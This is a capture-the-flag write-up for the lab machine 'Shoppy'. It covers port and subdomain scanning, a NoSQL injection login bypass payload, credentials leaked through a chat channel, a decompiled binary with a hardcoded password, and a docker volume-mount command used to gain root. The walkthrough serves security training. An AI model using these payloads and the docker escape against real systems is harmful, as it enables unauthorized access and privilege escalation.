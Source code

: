 # Shoppy

<figure><img src="../../../.gitbook/assets/image (50).png" alt=""><figcaption><p>nice box tbh</p></figcaption></figure>



## Recon

### nmap scan

```bash
└─➜ cat ports.scan                                                                                                                                                                        [0]
Starting Nmap 7.94 ( https://nmap.org ) at 2024-01-04 17:39 IST
Stats: 0:00:19 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
NSE Timing: About 99.30% done; ETC: 17:40 (0:00:00 remaining)
Stats: 0:00:32 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
NSE Timing: About 93.75% done; ETC: 17:40 (0:00:00 remaining)
Nmap scan report for shoppy.htb (10.129.227.233)
Host is up (0.42s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey:
|   3072 9e:5e:83:51:d9:9f:89:ea:47:1a:12:eb:81:f9:22:c0 (RSA)
|   256 58:57:ee:eb:06:50:03:7c:84:63:d7:a3:41:5b:1a:d5 (ECDSA)
|_  256 3e:9d:0a:42:90:44:38:60:b3:b6:2c:e9:bd:9a:67:54 (ED25519)
80/tcp open  http    nginx 1.23.1
|_http-title:             Shoppy Wait Page
|_http-server-header: nginx/1.23.1
9093/tcp open        copycat
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 33.29 seconds
```



### directory scanning

* I found few directories `/admin` & `/login` were intresting&#x20;
* `/admin` was redirecting to `/login`

### subdomain scan

```bash
ffuf -u http://shoppy.htb -H "Host: FUZZ.shoppy.htb" \
-w /usr/share/wordlists/SecLists/Discovery/DNS/bitquark-subdomains-top100000.txt  \
-fs 169    
```

* found `mattermost`
* Adding `mattermost.shoppy.htb` in `/etc/hosts`

## Initial FootHold

### Web attack

* Mattermost index page had login page, tried sqli, didnt' work.
* Tried nosqli paylaod, worked!!

<figure><img src="../../../.gitbook/assets/image (51).png" alt=""><figcaption></figcaption></figure>

* payload :&#x20;

```javascript
{
    "username": "admin' || 'a'=='a",
    "password": "password"
}
```

* Read similar payloads from hacktricks

{% embed url="https://book.hacktricks.xyz/pentesting-web/nosql-injection" %}

#### Admin access (shoppy.htb)

* After getting admin, we can see a feature called `search-users`
* i tried with same payload eariler, and it worked ( `admin' || 'a'=='a` )

<figure><img src="../../../.gitbook/assets/image (52).png" alt=""><figcaption></figcaption></figure>

* the admin has wasn't crackable
* password for josh was `remembermethisway`

#### Login josh on subdomain

* After login, we can see some private/public chats
* upon visiting [http://mattermost.shoppy.htb/shoppy/channels/deploy-machine](http://mattermost.shoppy.htb/shoppy/channels/deploy-machine), we can ssh creds for user jaeger



## User shell (jaeger)

<figure><img src="../../../.gitbook/assets/image (54).png" alt=""><figcaption><p>Sh0ppyBest@pp!</p></figcaption></figure>

### Decompilng Binary&#x20;

```bash
jaeger@shoppy:~$ sudo -l
[sudo] password for jaeger:
Sorry, try again.
[sudo] password for jaeger:
Matching Defaults entries for jaeger on shoppy:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User jaeger may run the following commands on shoppy:
    (deploy) /home/deploy/password-manager
jaeger@shoppy:~$

```

* we can run password-manager as deploy

#### Decompiling the binary with ghidra

* main function

```cpp
bool main(void)

{
  int iVar1;
  basic_ostream *pbVar2;
  basic_string<> local_68 [32];
  basic_string local_48 [47];
  allocator<char> local_19 [9];
  
  pbVar2 = std::operator<<((basic_ostream *)std::cout,"Welcome to Josh password manager!");
  std::basic_ostream<>::operator<<((basic_ostream<> *)pbVar2,std::endl<>);
  std::operator<<((basic_ostream *)std::cout,"Please enter your master password: ");
  std::__cxx11::basic_string<>::basic_string();
                    /* try { // try from 00101263 to 00101267 has its CatchHandler @ 001013cb */
  std::operator>>((basic_istream *)std::cin,local_48);
  std::allocator<char>::allocator();
                    /* try { // try from 00101286 to 0010128a has its CatchHandler @ 001013a9 */
  std::__cxx11::basic_string<>::basic_string((char *)local_68,(allocator *)&DAT_0010205c);
  std::allocator<char>::~allocator(local_19);
                    /* try { // try from 001012a5 to 00101387 has its CatchHandler @ 001013ba */
  std::__cxx11::basic_string<>::operator+=(local_68,"S");
  std::__cxx11::basic_string<>::operator+=(local_68,"a");
  std::__cxx11::basic_string<>::operator+=(local_68,"m");
  std::__cxx11::basic_string<>::operator+=(local_68,"p");
  std::__cxx11::basic_string<>::operator+=(local_68,"l");
  std::__cxx11::basic_string<>::operator+=(local_68,"e");
  iVar1 = std::__cxx11::basic_string<>::compare(local_48);
  if (iVar1 != 0) {
    pbVar2 = std::operator<<((basic_ostream *)std::cout,
                             "Access denied! This incident will be reported !");
    std::basic_ostream<>::operator<<((basic_ostream<> *)pbVar2,std::endl<>);
  }
  else {
    pbVar2 = std::operator<<((basic_ostream *)std::cout,"Access granted! Here is creds !");
    std::basic_ostream<>::operator<<((basic_ostream<> *)pbVar2,std::endl<>);
    system("cat /home/deploy/creds.txt");
  }
  
  <<snipped>>
```

* it's checking the input with word `Sample`

```cpp
iVar1 = std::__cxx11::basic_string<>::compare(local_48);
  if (iVar1 != 0) {
    pbVar2 = std::operator<<((basic_ostream *)std::cout,
                             "Access denied! This incident will be reported !");
    std::basic_ostream<>::operator<<((basic_ostream<> *)pbVar2,std::endl<>);
```

* if it's satisfied we can read creds.txt file



### Priv Esc (jaeger -> deploy)

```bash
jaeger@shoppy:~$ sudo -u deploy /home/deploy/password-manager
Welcome to Josh password manager!
Please enter your master password: Sample
Access granted! Here is creds !
Deploy Creds :
username: deploy
password: Deploying@pp!
```



## Root Shell

* we had a docker image , searching docker on GTFObins, we get a payload.
* Using that payload get us root shell

```bash
deploy@shoppy:~$ docker images
REPOSITORY   TAG       IMAGE ID       CREATED         SIZE
alpine       latest    d7d3d98c851f   17 months ago   5.53MB

deploy@shoppy:~$ docker run -v /:/mnt --rm -it alpine chroot /mnt sh
# id
uid=0(root) gid=0(root) groups=0(root),1(daemon),2(bin),3(sys),4(adm),6(disk),10(uucp),11,20(dialout),26(tape),27(sudo)
# cat /root/root.txt
b9402724d139<<snipped>>
#
```
